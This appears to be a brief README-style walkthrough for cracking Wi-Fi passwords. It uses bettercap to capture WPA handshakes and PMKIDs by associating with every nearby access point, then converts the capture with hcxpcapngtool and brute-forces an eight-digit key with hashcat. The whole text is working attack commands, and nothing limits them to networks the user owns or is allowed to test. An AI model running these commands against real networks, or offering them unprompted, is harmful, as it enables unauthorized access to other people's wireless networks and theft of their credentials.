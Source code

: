 > set wifi.interface wlan0mon

> wifi.recon on

> wifi.show

> wifi.assoc all

once you see that a handshake was captured, leave bettercap running and open a new window

here we will need to convert the pcap file to a format that is readable for hashcat

> hcxpcapngtool -o /home/d0c0b/Desktop/handshakes.pmkid /root/bettercap-wifi-handshakes.pcap

now to decrypt the file to retrieve password

> hashcat -m22000 -a3 -w3 /home/d0c0b/Desktop/handshakes.pmkid '?d?d?d?d?d?d?d?d'

you type "s" to get a status
> s
